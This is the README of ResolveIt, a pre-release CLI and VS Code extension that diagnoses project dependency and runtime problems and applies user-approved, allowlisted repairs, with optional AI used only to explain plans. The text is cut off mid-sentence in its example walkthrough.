

# ResolveIt

ResolveIt is a local-first, IDE-integrated agentic AI environment diagnosis and
repair tool. It analyzes a project's requirements against the actual development
environment, identifies configuration and dependency problems, optionally uses AI
to plan repairs, asks for user approval before making changes, applies
controlled repairs through validated tools, and verifies the result.

It is **not** a general-purpose coding assistant. Its purpose is:

**PROJECT ENVIRONMENT DIAGNOSIS + SAFE REPAIR.**

> **Status: pre-release (0.0.1).** The deterministic Core is complete, tested,
> and stable. The VS Code workflow panel is functional and is the primary UI.
> The extension is distributed as a local VSIX; it is not published to any
> marketplace.

---

## Table of contents

- [Overview](#overview)
- [Core workflow](#core-workflow)
- [Project at a glance](#project-at-a-glance)
- [Architecture](#architecture)
- [Safety model](#safety-model)
- [Dependency installed-state detection](#dependency-installed-state-detection)
- [Supported ecosystems](#supported-ecosystems)
- [AI providers](#ai-providers)
- [Ollama setup](#ollama-setup)
- [Installing ResolveIt Core](#installing-resolveit-core)
- [CLI usage](#cli-usage)
- [Installing the VS Code extension](#installing-the-vs-code-extension)
- [Development mode](#development-mode)
- [VS Code usage](#vs-code-usage)
- [Repair approval](#repair-approval)
- [Verification](#verification)
- [Example workflow](#example-workflow)
- [Test fixtures](#test-fixtures)
- [Testing](#testing)
- [Docker support](#docker-support)
- [UI history](#ui-history)
- [Project structure](#project-structure)
- [Development](#development)
- [Phase history](#phase-history)
- [Known limitations](#known-limitations)
- [Developer handoff](#developer-handoff)
- [Contributing](#contributing)
- [License](#license)

---

## Overview

### The problem

Opening or cloning a project rarely ends with a working setup. Typical trouble:

- dependencies declared in a manifest are not installed
- installed versions do not satisfy the declared constraints
- required runtimes or tools are missing from the machine
- versions are incompatible across the stack
- configuration files are incorrect or incomplete
- containers and build tooling are misconfigured
- developers cannot tell what actually needs to be installed or changed

### What ResolveIt does about it

ResolveIt works through a fixed, auditable pipeline:

1. **Observe** the project (workspace scan, project discovery)
2. **Understand** requirements (manifest and lockfile parsing)
3. **Inspect** the environment (runtimes, tools, package managers, containers)
4. **Diagnose** problems deterministically, with evidence attached
5. **Reason** about repairs, using AI when enabled, over deterministic facts
6. **Present** a structured repair plan
7. **Request** explicit per-action user approval
8. **Apply** only validated, allowlisted repairs
9. **Verify** the result by re-running diagnostics
10. **Report** the final state (resolved, or re-plan honestly on failure)

Everything it decides is derived from evidence it can show. When it does not
know something, it says `unknown` -- it does not guess.

**ResolveIt is NOT a general coding assistant.** It does not write features,
answer general questions, refactor, or edit code on request. Its focus is:

- project/environment compatibility
- runtime and toolchain detection
- dependency and requirement analysis (declared vs actually installed)
- deterministic diagnostics
- deterministic repair planning
- AI explanations of the deterministic plan
- safe, approved repair execution
- verification and auditability

---

## Core workflow



In code, the agent state machine is:

```
OBSERVE -> ANALYZE -> PLAN -> REQUEST USER APPROVAL -> ACT -> VERIFY -> RESOLVED
                                                                              |
                                                                           RE-PLAN
```

The VS Code panel follows the same lifecycle as beginner-facing stages:

```
AI Mode -> Project -> Analyze -> Status -> Repair Plan -> Apply -> Verify -> Done
```

A healthy project reaches `Verify` and then `Done` without a repair plan. A
project with problems goes through Repair Plan, approval, and Apply. A failing
check returns to the Repair Plan instead of dead-ending.

---

## Project at a glance

A fact sheet for report, slide-deck, and poster authors. Every number below was
checked against this repository.

| Item | Fact |
|---|---|
| Purpose | Project environment diagnosis + safe, approved repair |
| Approach | Deterministic Core first; AI is an optional planning layer |
| Language | TypeScript (strict), Node.js >= 20 |
| Core tests | 32 files, 522 tests (`npm test`) |
| Extension tests | 10 files, 185 tests (`cd vscode && npm test`, `vscode` API mocked) |
| Requirement parsers | 17 parser classes, 12 ecosystem identifiers |
| Diagnostic rules | 8 (runtime, toolchain, container, Docker security, dependency, build, project, cross-project) |
| Repair tools | 4 allowlisted tools (create file, modify file, install dependency, create Python venv) |
| AI modes | No AI (default) / Local AI (Ollama-compatible) / External AI (OpenAI-compatible) |
| CLI commands | `scan`, `environment`, `requirements`, `diagnose`, `repair`, `run`, `ai`, plus `version` / `help` |
| VS Code commands | 19 contributed commands, 1 on-demand workflow panel, 5 settings, no sidebar views |
| Safety | Per-action approval, tool validators, path containment, audit log, secret redaction |
| License | MIT |

---

## Architecture

```
VS Code Extension (thin client)
        |
        v
ResolveIt Core (authoritative)
        |
        |-- Workspace Manager        (src/core/workspace-manager.ts)
        |-- Project Scanner          (src/scanners/)
        |-- Environment Intelligence (src/environment/, src/environment/adapters/)
        |-- Diagnostic Engine        (src/diagnostics/, src/diagnostics/rules/)
        |-- Repair Engine            (src/repair/, src/repair/tools/)
        |-- Verification Engine      (src/agent/verifier.ts)
        |-- Safety / Permission Layer(src/safety/)
        +-- Audit Logger             (src/repair/index.ts - AuditLoggerImpl)
                |
                |-- Language / Ecosystem Analyzers (src/requirements/parsers/)
                |-- Environment Adapters          (src/environment/adapters/)
                +-- Tool Registry                 (src/repair/registry.ts)

Agent Engine
        |
        +-- AI Provider Abstraction  (src/ai/, src/ai/providers/)
                |-- No AI      (src/ai/providers.ts)
                |-- Local AI   (src/ai/providers/local.ts)
                +-- External AI(src/ai/providers/external.ts)
```

**The VS Code extension is a thin client. The Core is authoritative.**

- The extension imports Core source directly through the public API
  (`src/index.ts`) and bundles it with esbuild. There is no second
  diagnostic, repair, or AI engine in `vscode/`.
- The extension **never executes repair commands itself**. It has no shell
  execution path for repairs. Approvals are *collected* in the UI and passed
  down as approved action IDs; the Core `PermissionManager` and
  `RepairExecutor` re-check every one of them and can still refuse.
- All security decisions live in the Core. The UI cannot escalate, bypass, or
  widen a permission level.

---

## Safety model

ResolveIt follows:

```
OBSERVE
   |
ANALYZE
   |
PLAN
   |
REQUEST USER APPROVAL
   |
ACT
   |
VERIFY
   |
RESOLVED
   or
RE-PLAN
```

### Key safety principles

- **Read-only discovery can happen automatically.** Scanning, environment
  probing, and requirement parsing never modify anything.
- **Project modifications require explicit approval.** Dependency installs,
  file creation/modification, and venv creation all stop at the approval gate.
- **System modifications require explicit approval**, and in practice
  ResolveIt does not automate them at all -- they are reported as manual
  actions.
- **AI output is untrusted.** It is treated as data, never as instructions.
  Project content (READMEs, comments, manifests) is likewise evidence, not
  authority.
- **AI cannot execute arbitrary shell commands.** AI can only name a
  registered tool and pass allowlisted structured parameters.
- **Repair actions are validated** -- by the tool's own `validate()` before
  execution, in addition to plan-level validation.
- **Package managers and executables are allowlisted.**
  `InstallDependencyTool` constructs commands internally from a fixed
  ecosystem table (`npm`, `pip`, `cargo`, `go`, `composer`, `bundle`);
  arbitrary command strings are never accepted.
- **Paths are contained within the workspace** where required, using
  canonical resolution, `path.relative` segment checks (not string prefixes),
  and fail-closed symlink behaviour.
- **Verification occurs after repairs.** Success is reported only when
  verification passes: *approved != executed != succeeded != verified*.
- **Failed repairs must not appear successful.** A repair that throws or exits
  non-zero is recorded as a failure with its error text.
- **Denied repairs must not execute.** The executor runs a tool only on an
  exact `allowed` decision; denials produce a `failure` audit record and no
  side effects.
- **Audit records track important operations.** JSONL entries under
  `.resolveit/audit/` correlate
  `runId -> plan -> action -> approval -> execution -> verification`.
- **Secrets are redacted.** Sensitive parameter keys, bearer/basic tokens,
  API keys, and private-key blocks are redacted from audit records, logs,
  errors, child-process output, agent snapshots, and AI context.
- **`.env` files are not parsed** as requirements, and are excluded from
  scanning.
- **Dangerous Docker configurations are diagnosed but not automatically
  remediated.** Docker security findings carry no remediation candidates, so
  no repair tool can apply them.

### Actual architecture of the permission flow

```
UI
  |
CoreClient
  |
PermissionManager
  |
RepairExecutor
  |
VerificationEngine
```

### Action levels

| Level | Examples | Approval |
|---|---|---|
| Read-only | Inspect files, environment, tools, dependencies, run safe diagnostics | Implicit (auto-approved by policy) |
| Project modification | Install dependencies, modify/create project files, create a Python venv | Explicit user approval |
| System-level modification | Installing system software, changing system configuration, runtime upgrades | Explicit user approval -- and in practice reported as a manual action, never automated |

Higher-risk actions require explicit user approval. The permission layer
enforces this at the API boundary, not in the UI.

### Limits

`src/safety/limits.ts` bounds untrusted input: paths 1024 chars; repair
content 256 KiB; AI responses 256 KiB / 16 actions / 16 KiB per parameter set /
depth 5; audit query 200 results / 5 MiB scanned; command output 256 KiB /
timeout 120 s; requirement files 1 MiB / 500 files. Oversized input degrades to
an explicit warning or manual action -- never a silently truncated security
decision.

---

## Dependency installed-state detection

A declared requirement is never treated as proof of installation. For npm
projects, the dependency rule (`src/diagnostics/rules/dependency.ts`)
establishes installed state deterministically from the actual project tree via
`src/diagnostics/installed-packages.ts`:

- It reads `<projectDir>/node_modules/<package>/package.json` (read-only,
  no commands, no network).
- **Missing** (no directory, unreadable manifest, or no version):
  `DEPENDENCY_PACKAGE_MISSING` -- `error` for production dependencies,
  `warning` for development dependencies.
- **Installed but not satisfying the constraint**:
  `DEPENDENCY_PACKAGE_VERSION_MISMATCH` (same severity split), checked with
  the shared `versionMatcher`.
- **Installed and satisfying**: no diagnostic. This silence is what the UI
  counts as satisfied.
- **Never consulted**: global npm packages, lockfiles alone, or the manifest
  alone. A lockfile entry without the installed tree still reports missing.
- **Not inspected** (keeps the previous informational behavior, never
  blocking): optional and peer dependencies, and ecosystems without a local
  tree inspector.

The Status screen derives Requirements / Installed dependencies /
Dependencies to install from these inspection results. The missing
diagnostic feeds the deterministic planner's `install-dependency` action
through the existing validators, and its evidence (`expected: "^5.1.0",
actual: "NOT FOUND"`) is what the AI explanation layer describes back to
the user in plain language.

---

## Supported ecosystems

ResolveIt performs **static manifest and lockfile analysis** with
version-constraint matching. **It does NOT implement a full dependency
solver.** There is no version resolution, no conflict solving, and no lockfile
rewriting.

17 parser classes are registered by filename in `src/requirements/index.ts`
(`registerDefaultParsers`), covering 12 ecosystem identifiers:

| Ecosystem | Files parsed | Notes |
|---|---|---|
| **Python** | `requirements.txt`, `pyproject.toml` (PEP 621 + Poetry), `poetry.lock`, `setup.cfg`, `setup.py`, `Pipfile`, `Pipfile.lock` | `setup.py` is parsed **statically, never executed**; dynamic declarations produce a `DYNAMIC_DECLARATION` warning |
| **Node** | `package.json`, `package-lock.json`, `pnpm-lock.yaml`, `yarn.lock` | Volta pins, `packageManager`, dev/peer/optional deps; installed state checked against `node_modules`; `bun.lockb` is recognized but not parsed (binary) |
| **Java / Maven** | `pom.xml`, `maven-wrapper.properties` | Property resolution, parent POM, dependency management, managed-scope exclusion |
| **Java / Gradle** | `build.gradle`(+`.kts`), `settings.gradle`(+`.kts`), `gradle.properties`, `gradle-wrapper.properties`, `libs.versions.toml` | Toolchain DSL, version catalogs, dynamic version markers |
| **Go** | `go.mod`, `go.work` | `require` blocks, `// indirect`, `replace`, `exclude`, workspace members. `go.sum` recognized but not parsed |
| **Rust** | `Cargo.toml`, `Cargo.lock` | Hyphenated names, workspace inheritance (without inventing versions), members, dev-deps |
| **C / C++** | `CMakeLists.txt`, `Makefile`, `meson.build`, `conanfile.txt`, `conanfile.py`, `conan.lock`, `vcpkg.json` | `find_package` versions/components, C/C++ standards, fallback deps |
| **.NET** | `*.csproj`, `*.fsproj`, `*.vbproj`, `*.sln`, `*.slnx`, `global.json`, `Directory.Packages.props`, `Directory.Build.props/targets`, `packages.config`, `nuget.config` | Multi-targeting, SDK pins with `rollForward`, central package management |
| **Ruby** | `Gemfile`, `Gemfile.lock`, `*.gemspec` | Groups, Ruby version constraints |
| **PHP** | `composer.json`, `composer.lock` | `ext-*` system tools, `require-dev`, both lock sections |
| **Docker / Compose** | `Dockerfile`, `Containerfile`, `*.dockerfile`, `docker-compose.{yml,yaml}`, `compose.{yml,yaml}` | Digests, `--platform`, registries with ports, `ARG`, build contexts, `build` blocks |

### Ecosystem limitations

- **No dependency solver.** ResolveIt reports what is declared and what the
  environment reports; it does not compute a resolution.
- **Uncheckable dependency status is `unknown`, never assumed.** Where no
  local inventory exists (non-npm ecosystems, optional/peer entries),
  ResolveIt emits an informational diagnostic saying so. It does not pretend
  a dependency is installed or missing.
- **Dynamic/build-time discovery is limited.** `setup.py` logic, Gradle
  Kotlin/Groovy expressions, and arbitrary CMake code cannot be evaluated;
  they degrade to explicit warnings instead of invented versions.
- **Lockfile/transitive entries are never proposed for direct installation.**
  The deterministic planner emits manual guidance for them instead.
- **Automated installs cover 6 ecosystems only** (`npm`, `pip`, `cargo`,
  `go`, `composer`, `bundle`). Maven/Gradle/.NET/CMake dependencies are
  detected and reported, but not auto-installed.
- **Multi-project attribution** is per manifest directory: nested projects
  keep their own identity and files are never double-counted, but ResolveIt
  does not model inter-project dependency graphs.

---

## AI providers

Three modes. **No AI is the default** and requires no configuration, no keys,
and no network access. Switching modes never requires a code change.

### 1. No AI (default)

```bash
node dist/cli/index.js run --ai none
node dist/cli/index.js ai
```

Deterministic planning only. No network calls are made. This is the mode the
entire test suite and the release matrix exercise.

### 2. Local AI (Ollama-compatible)

Point ResolveIt at a local Ollama-compatible endpoint and choose your own
model. ResolveIt never downloads models and never starts the local service
for you.

```powershell
$env:RESOLVEIT_AI_PROVIDER="local"
$env:RESOLVEIT_AI_MODEL="gemma3:4b"
$env:RESOLVEIT_AI_BASE_URL="http://localhost:11434"

node dist/cli/index.js ai
node dist/cli/index.js run --ai local
```

### 3. External AI (OpenAI-compatible)

Provide your own compatible endpoint, model, and API key. **Never commit
credentials to the repository -- use environment variables only.**

```bash
export RESOLVEIT_AI_PROVIDER=external
export RESOLVEIT_AI_MODEL=your-model
export RESOLVEIT_AI_BASE_URL=https://your-gateway.example/v1
export RESOLVEIT_AI_API_KEY=...

node dist/cli/index.js ai
node dist/cli/index.js run --ai external
```

### Configuration precedence

Explicit CLI flags (`--ai`, `--ai-model`, `--ai-base-url`) -> environment
variables (`RESOLVEIT_AI_PROVIDER`, `RESOLVEIT_AI_MODEL`,
`RESOLVEIT_AI_BASE_URL`, `RESOLVEIT_AI_API_KEY`, `RESOLVEIT_AI_TIMEOUT_MS`) ->
safe defaults. Unknown provider values coerce to `none`. In VS Code, the
`resolveit.ai.*` settings map onto the same config object.

`resolveit ai` prints provider, model, base URL, timeout, `apiKeyConfigured`
(a boolean -- never the key), and availability.

### How AI is used

**In the VS Code workflow, AI explains the deterministic repair plan; it
does not generate or execute repairs.** After a deterministic plan is built,
the workflow may request a read-only explanation
(`requestRepairExplanation` over the optional `AIProvider.explainPlan`):
one beginner-friendly entry per existing repair action id (what it means,
why it was detected, what ResolveIt will do, expected result), grounded in
exact deterministic facts (action count, package names, versions, package
manager, diagnostic summaries). Explanations must cover exactly the plan's
actions, contain no executable fields, and are rendered below the approval
controls as information only. They can never create, modify, approve, or
execute actions. If AI is unavailable or its output is invalid, the plan
stays fully usable with a small notice.

- **AI receives structured evidence, not access to the machine.** Explanation
  context contains only the project name, the plan description, and per-action
  facts (id, type, description, package coordinates, diagnostic summary).
  File contents, environment variable values, and `.env` data are never
  included.
- **AI permission levels are impossible to influence.** They come from the
  tool definition, never from the model, and any
  `permissionLevel`/`approval`/`bypass`/`elevation` key in AI output is
  rejected outright.

The `createAIPlanner` machinery (prompt, response parsing, `validateAIPlan`)
remains in the codebase with unit coverage, but no product flow invokes it:
both the workflow and the headless CLI agent (`resolveit run`, whose `--ai`
flags are still accepted for compatibility) plan with the deterministic
planner only. The validation pipeline below therefore documents module
behavior, not an active product path:

```
AI output -> JSON parse -> schema check -> known tool -> parameter allowlist ->
privilege/command-field rejection -> workspace-root overwrite ->
permission level from tool -> tool.validate() -> PermissionManager
```

- **Invalid, hostile, or malformed AI actions are rejected.** Rejection
  reasons include unknown tools, unsupported parameters,
  privilege-escalation attempts, arbitrary `command`/`shell`/`exec`/`spawn`
  fields, unsafe paths, oversized parameters, excessive nesting, and
  tool-level validation failures.

---

## Ollama setup

The configuration used during development and testing:

```bash
ollama list
```

```
NAME         ID              SIZE      MODIFIED
gemma3:4b    a2af6cc3eb7f    3.3 GB    6 months ago
```

Model used during testing:

```bash
ollama run gemma3:4b
```

ResolveIt base URL:

```
http://localhost:11434
```

Verify ResolveIt can see it:

```bash
node dist/cli/index.js ai
```

Example output (from the development machine):

```
ResolveIt AI Provider
  Provider: local (Local AI Provider)
  Model: gemma3:4b
  Base URL: http://localhost:11434
  API key configured: no
  Timeout: 30000ms
  Available: yes
```

**Do not assume every model behaves the same.** Small local models frequently
emit malformed or schema-invalid plans; that is expected and is handled by
validation and deterministic fallback, not by trusting the model. A model
that is available is not necessarily a model that produces useful proposals.

---

## Installing ResolveIt Core

From a fresh clone:

```bash
git clone https://github.com/SahilGkar/ResolveIt.git
cd ResolveIt
npm install
npm run build
```

Requirements: **Node.js >= 20** (developed and validated on Node 24). There
is no postinstall step, no native build, and no network access at install
time.

Confirm the CLI works:

```bash
node dist/cli/index.js --help
node dist/cli/index.js version
```

If `package.json` is present you can also run `npx resolveit --help`, which
uses the `bin.resolveit` entry point.

### Try it on a bundled fixture

```bash
node dist/cli/index.js scan tests/fixtures/integration/broken-python
node dist/cli/index.js diagnose --path tests/fixtures/integration/broken-python
node dist/cli/index.js run --path tests/fixtures/integration/broken-python --dry-run
```

---

## CLI usage

| Command | What it does | Options |
|---|---|---|
| `scan <workspace>` | Scan a workspace: projects, files, languages, markers, config | `--json`, `--max-depth <n>`, `--max-files <n>` |
| `environment` | Inspect the *current machine*: OS, runtimes, tools, package managers, Docker | `--json`, `--timeout <ms>` (default 30000) |
| `requirements` | Parse manifests/lockfiles and print requirements | `--json`, `--timeout <ms>` (default 60000), `--path <p>` |
| `diagnose` | Run the diagnostic engine over a workspace | `--json`, `--timeout <ms>` (default 60000), `--path <p>` (default `.`) |
| `repair` | Plan repairs from diagnostics and execute approved ones | `--json`, `--dry-run`, `--path <p>`, `--approve <action-id>` |
| `run` | Run the full agent lifecycle (observe -> analyze -> plan -> approve -> act -> verify) | `--json`, `--dry-run`, `--path <p>`, `--approve <action-id>`, `--ai <provider>`, `--ai-model <m>`, `--ai-base-url <u>` |
| `ai` | Show AI provider configuration and availability (never prints secrets) | `--json` |
| `version`, `help` | Version / help | -- |

### Notes

- `scan` takes the workspace as a **positional argument**, not `--path`:
  `node dist/cli/index.js scan .` or
  `node dist/cli/index.js scan C:\path\to\project`.
- `--path` is supported by `requirements`, `diagnose`, `repair`, and `run`,
  and defaults to `.` (the current directory).
- `environment` always inspects the machine ResolveIt is running on; it has
  no `--path`.
- `run` and `repair` **never execute anything unless you approve it.**
  Without `--approve <action-id>`, each action is printed for approval and
  skipped:

  ```
  Action requires approval:
    ID: action-...
    Type: install-dependency
    ...
  To approve this action, run: resolveit run --approve <action-id>
  ```

- `--dry-run` prints the plan and stops before any modification. On `run`, a
  dry run finishes in state `awaiting-approval` with reason "Dry run stopped
  before modifications".

### Example: diagnose a project

```bash
node dist/cli/index.js diagnose --path tests/fixtures/integration/broken-python
```

```
ResolveIt Diagnostics

ERROR
  python version mismatch
  python version 3.14.2 does not satisfy requirement ==2.7.*: Expected version 2.7.*, got 3.14.2
  Source: requirement - python ==2.7.*
  Source: environment - python 3.14.2
    Expected: ==2.7.*
    Actual: 3.14.2
  Remediation candidates:
    - Install python ==2.7.* (confidence: 80%)
    - Upgrade python to ==2.7.* (confidence: 90%)

INFO
  Dependency: requests
  Dependency requests >=2.0 declared in pyproject.toml (project.dependencies). Status: unknown - no local package inventory available
  ...

Summary
  Total diagnostics: 2
  error: 1
  info: 1
```

(The `requests` entry stays informational: only npm dependencies get local
installed-state inspection; everything else is reported as `unknown`, never
guessed.)

---

## Installing the VS Code extension

**ResolveIt currently ships as a local VSIX. It is not published to the
Marketplace.**

### Build the VSIX from this repository

```bash
cd vscode
npm install
npm run build
npm run package
```

This creates:

```
vscode/resolveit-0.0.1.vsix
```

The extension has its own isolated `node_modules` and does not depend on the
root install.

### Install in VS Code (GUI)

1. Open VS Code.
2. Open the Extensions view (`Ctrl+Shift+X`).
3. Click the three-dot menu (...) at the top of the view.
4. Select **"Install from VSIX..."**.
5. Select `C:\ResolveIt\vscode\resolveit-0.0.1.vsix` (or wherever you built
   it).
6. Install / update the extension.
7. Reload VS Code if prompted.

### PowerShell alternative

```powershell
code --install-extension C:\ResolveIt\vscode\resolveit-0.0.1.vsix --force
```

To remove it later:

```powershell
code --uninstall-extension resolveit-dev.resolveit
```

### A locally installed VSIX does NOT auto-update

The VSIX is a build artifact. Changing files under `vscode/src/` has **no
effect** until you rebuild and reinstall:

```bash
cd vscode
npm run build
npm run package
code --install-extension .\resolveit-0.0.1.vsix --force
```

`.vsix` files are git-ignored; never commit one.

---

## Development mode

**There is no launch configuration committed to this repository**, so
pressing `F5` in the `vscode/` folder will not start an Extension
Development Host -- VS Code has no debug target to run.

**VSIX packaging is the currently validated installation path.** It is what
was used to produce and install the build described above.

If you want F5 development, you must add your own
`vscode/.vscode/launch.json` with a standard `Run Extension` configuration.
Be aware that `.vscode/` is git-ignored at the repository root, so such a
file would be local-only and would not be shared with the project partner
unless that ignore rule is deliberately changed. This path has **not** been
validated as part of this handoff.

---

## VS Code usage

The extension contributes 19 commands, one on-demand workflow panel, and 5
settings. There are no sidebar views.

### Beginner-friendly flow

1. **Open a project folder** in VS Code (a single folder; see multi-root
   note below).
2. **Open ResolveIt** -- run **ResolveIt: Open Workflow** from the Command
   Palette.
3. **Choose how ResolveIt should reason** -- Local AI, External AI, or
   Deterministic / No AI. Each option shows a probed status (Connected, Not
   reachable, Not configured, or Not checked): a mode is never shown as
   available merely because it is selected.
4. **Confirm the project** and click **Check Your Project**. The project
   screen shows the detected project name, falling back to the workspace
   folder name when no formal project name was detected.
5. **Review the status** -- Requirements, Installed dependencies, and
   Dependencies to install, established from the actual install tree. A
   missing dependency is named with its required version and a plain-language
   explanation.
6. **Open the repair plan** -- always a **Deterministic repair plan** built
   by ResolveIt's own planner. Below the approval controls, an **AI
   Explanation** section describes each planned fix in plain language; it
   is informational only and never changes what will be executed.
7. **Review each proposed fix** -- action, why, target, scope, risk,
   expected change, status.
8. **Approve fixes** -- `Approve All`, `Deny All`, or individual toggles.
   System-level actions always need an individual decision. Returning to the
   plan after a failure carries your previous decisions forward for
   equivalent actions; new actions always start awaiting approval.
9. **Fix these problems** -- denied actions are reported as skipped, never
   as failed.
10. **Verification runs automatically** right after execution.
11. **Verify Changes** explains what was re-checked. **Finish** reaches the
    **Done** screen with the evidence, or **Problems Remain** loops back via
    **Return to Repair Plan** with the failure reason preserved.
12. A healthy project skips the repair plan: Status -> Verify -> Done, with
    an explicit statement that all required dependencies are installed.

### Commands

| Command | ID |
|---|---|
| ResolveIt: Open Workflow | `resolveit.openWorkflow` |
| ResolveIt: Analyze Project | `resolveit.analyzeProject` |
| ResolveIt: Generate Repair Plan | `resolveit.generateRepairPlan` |
| ResolveIt: Apply Approved Repairs | `resolveit.applyApprovedRepairs` |
| ResolveIt: Allow Repair Action | `resolveit.approveAction` |
| ResolveIt: Skip Repair Action | `resolveit.skipAction` |
| ResolveIt: Review Problems | `resolveit.reviewProblems` |
| ResolveIt: Review Repairs | `resolveit.reviewRepairs` |
| ResolveIt: Ask AI | `resolveit.askAI` |
| ResolveIt: Retry AI | `resolveit.retryAI` |
| ResolveIt: Show Details | `resolveit.showDetails` |
| ResolveIt: Open AI Settings | `resolveit.openSettings` |
| ResolveIt: Scan Project | `resolveit.scan` |
| ResolveIt: Diagnose Project | `resolveit.diagnose` |
| ResolveIt: Run ResolveIt | `resolveit.run` |
| ResolveIt: Show Environment | `resolveit.environment` |
| ResolveIt: Show Requirements | `resolveit.requirements` |
| ResolveIt: Repair | `resolveit.repair` |
| ResolveIt: Verify | `resolveit.verify` |

Review commands open the workflow panel at the matching stage.

### Settings

| Setting | Default | Meaning |
|---|---|---|
| `resolveit.ai.provider` | `none` | `none`, `local`, or `external` |
| `resolveit.ai.model` | `""` | Model name for the local/external provider |
| `resolveit.ai.baseUrl` | `""` | Ollama-compatible or OpenAI-compatible base URL |
| `resolveit.ai.timeout` | `30000` | AI request timeout (ms) |
| `resolveit.maxIterations` | `3` | Agent repair iterations before failing |

API keys are accepted **only** from environment variables, never from
settings.

---

## Repair approval

Approval is per action, and it is a hard gate.

```
Diagnostic -> proposed action -> Approve All / Deny All / individual toggle
           -> Fix These Problems -> tool.validate() -> execute
```

- Approving records a decision in extension state. It does **not** execute
  anything.
- `Approve All` approves every pending action **except system-level
  actions**, which always need an explicit per-action decision.
- `Deny All` (or `Skip`) records a denial. Denied actions never execute and
  are reported as **skipped, never as failed**.
- `Fix These Problems` passes the approved action IDs down to the Core. The
  Core re-validates each one (`tool.validate()`) and can still refuse, with
  the Core reason shown.
- If diagnostics have changed since the plan was generated, the plan is
  marked **stale** and applying is blocked until a fresh plan is generated.
- Actions whose IDs are not in the current plan are ignored (stale/hostile
  messages from the webview are dropped and logged).
- The legacy `ResolveIt: Repair` and `ResolveIt: Run ResolveIt` commands keep
  the older flow (hidden from the Command Palette; still invocable
  programmatically): the plan is printed to the `ResolveIt` output channel,
  then each action is confirmed via QuickPick (`Allow` / `Deny`).
- Manual-only items (runtime upgrades, toolchain installs, Docker findings)
  are reported with instructions and **never** run.

### The states -- do not confuse them

| Term | Meaning | Ran anything? |
|---|---|---|
| **Diagnostic** | A deterministic finding from the Core engine, with evidence | No |
| **AI proposal (CLI agent only)** | A structured suggestion produced by the AI layer, then validated by the Core. Never used by the VS Code workflow, whose plan is always deterministic | No |
| **Awaiting approval** | Proposed, no user decision yet | No |
| **Approved repair** | The user approved it (individually or via Approve All) | No |
| **Denied / skipped** | The user declined it; never executes, never reported as failed | No |
| **Executed repair** | The Core `RepairExecutor` ran the validated tool | Yes |
| **Verified repair** | Post-execution diagnostics confirm the issue is gone | Yes, and confirmed |

**Awaiting != Approved != Denied != Executed != Succeeded != Failed !=
Verified.** A repair that fails stays failed; it is never reported as
resolved. A denied action is skipped, not failed. Nothing is verified
without re-running verification.

---

## Verification

Verification is not optional and never inferred from an exit code.

- After execution, the Core re-runs diagnostics and compares **stable
  diagnostic keys** (category/code/requirement/file -- never random IDs) to
  produce `resolved` and `remaining` lists, plus any new regressions.
- Filesystem-only targeted checks run per action: created file exists with
  expected content, modified file contains the replacement, venv directory
  exists, installer outcome recorded.
- Custom `VerificationRule`s run per action and AND into the result.
- **Success requires zero remaining blocking diagnostics and zero failed
  targeted checks.**
- In the agent loop, failed verification re-observes, re-analyzes, and
  re-plans with the new evidence, up to `maxIterations` (default 3),
  tracking failed action fingerprints so an identical unsuccessful action is
  not repeated.
- In the UI, `Verified` is shown only after verification passes, and only
  for actions whose execution succeeded. Denied actions show `Denied`,
  failed actions show `Failed`, and approval controls disappear once an
  action leaves the approval stage. `Verified` reflects project-level
  verification (no remaining blocking diagnostics), which the UI states
  explicitly rather than claiming per-action proof.
- In the UI, a clean check lands on the Verify screen (never a manufactured
  Success): the user reads what was re-checked and presses **Finish** to
  reach Done. A failing check lands on Problems Remain with a return path to
  the Repair Plan.

---

## Example workflow

This is a realistic walkthrough based on the bundled `broken-python`
fixture and the actual CLI output. **It is an illustration of the flow, not a
guarantee for every project.**

**Project:** a Python application with `requires-python = "==2.7.*"`
**Requirement:** Python `==2.7.*`
**Environment:** Python 3.14.2

1. **Diagnostic** -- Core emits a blocking diagnostic:

   ```
   RUNTIME_RUNTIME-VERSION_MISMATCH  (category: runtime, severity: error)
   python version 3.14.2 does not satisfy requirement ==2.7.*: Expected version 2.7.*, got 3.14.2
   Expected: ==2.7.*   Actual: 3.14.2
   ```

2. **Remediation candidates** -- Core attaches `Install python ==2.7.*` and
   `Upgrade python to ==2.7.*`, both at system-modification risk.

3. **AI (optional, explanation only)** -- a configured AI provider may be
   asked to explain the finished plan in plain language. It never proposes
   actions and never changes the plan below.

4. **ResolveIt planning** -- the deterministic planner checks each
   candidate against the real tool validators. **Runtime and toolchain
   diagnostics have no controlled repair tool**, so they become a **manual
   action**, not an executable action. The run halts at `awaiting-approval`
   with an explanation. Nothing is executed.

   ```
   $ node dist/cli/index.js run --path tests/fixtures/integration/broken-python --dry-run
   Agent Run: run-...
   Status: awaiting-approval
   Reason: Dry run stopped before modifications
   Iterations: 1
   Manual actions required:
     - Manual action required: python version mismatch
       (No controlled repair tool for runtime diagnostics; system-level change
        requires explicit manual action)
   ```

**Where an automated repair *does* happen:** for a missing or mismatched npm
dependency (established against `node_modules`), or for a missing required
file, Core plans an executable `install-dependency` / `create-file` action.
That action then follows the approval -> execute -> verify path:

```
Diagnostic: DEPENDENCY_PACKAGE_MISSING (express ^5.1.0 not found in node_modules)
Plan:       install-dependency { ecosystem: "npm", package: "express" }
User:       Allow
Repair:     InstallDependencyTool runs `npm install --save express` through the safe command runner
Verify:     diagnostics re-run; the missing-dependency diagnostic is gone
Result:     resolved, or remaining diagnostics reported honestly
```

**The first example deliberately shows the case ResolveIt refuses to
automate.** A runtime downgrade is not something this tool will do for you,
